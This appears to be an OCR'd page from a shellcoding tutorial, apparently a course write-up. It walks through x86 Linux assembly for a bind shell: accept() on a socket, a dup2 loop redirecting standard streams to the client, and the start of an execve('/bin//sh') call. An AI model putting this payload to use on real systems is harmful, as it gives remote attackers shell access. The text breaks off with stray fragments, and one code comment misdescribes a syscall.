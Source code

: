 ```nasm
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x5      ; EBX is set to accept().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[2]. Push the value 0x0 to the stack.
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp     ; Point ECX to the top of the stack. 
int 0x80         ; System Call Interrupt 0x80 
xchg ebx, eax    ; The created clientSocket is stored in EAX after receiving a connection.
```

### 6. Transfer STDIN, STDOUT, and STDER to the Connected Session
#### C Function
```c
int dup2(int oldfd, int newfd);  
```
#### Our C Function            
```c
dup2( clientSocket, 0 ); // STDIN
dup2( clientSocket, 1 ); // STDOUT
dup2( clientSocket, 2 ); // STDERR
EAX       EBX      ECX     
```
+ `EAX = 63 = 0x3F`
  - This is the value to call the SYSCAL `dup2`.  
  - Find Dup2 SYSCAL value:  
```console
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2
  #define __NR_dup2  63
```   
+ `EBX = int oldfd = clientSocket`
  - Already set with `xchg ebx, eax` after the execution of `accept()`.  
+ `ECX = 2 & 1 & 0 = 0x2 & 0x1 & 0x0`
  - Since we need to do this SYSCAL 3 times, we will use a loop.

```nasm  
 xor eax, eax   ; This sets the EAX Register to NULL (all zeros).
 xor ecx, ecx   ; This sets the ECX Register to NULL (all zeros). 
 mov cl, 0x2    ; This sets the loop counter, and 
                ;  will also be the value of "int newfd" for the 3 dup2 SYSCAL's.
dup2Loop:       ; Procedure label for the dup2 Loop.
 mov al, 0x3f   ; EAX is now 0x0000003F = SYSCALL 63 - dup2
 int 0x80       ; System Call Interrupt 0x80 - Executes accept(). 
                ;   Allowing us to create connected Sockets. 
 dec ecx        ; Decrements ECX by 1 
 jns dup2Loop   ; Jump back to the dup2Loop Procedure until ECX equals 0.
```  

### 7. Spawn a `/bin/sh` shell for the client, in the connected session
#### Default C Function
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```  
#### Our C Function
```c
; execve("/bin//sh", NULL, NULL);
;  EAX      EBX       ECX   EDX
```
The Execve SysCall is used to execute programs on the linux system. In our case, we will execute a shell in the connected socket.  

[1]: 1
[1]: 1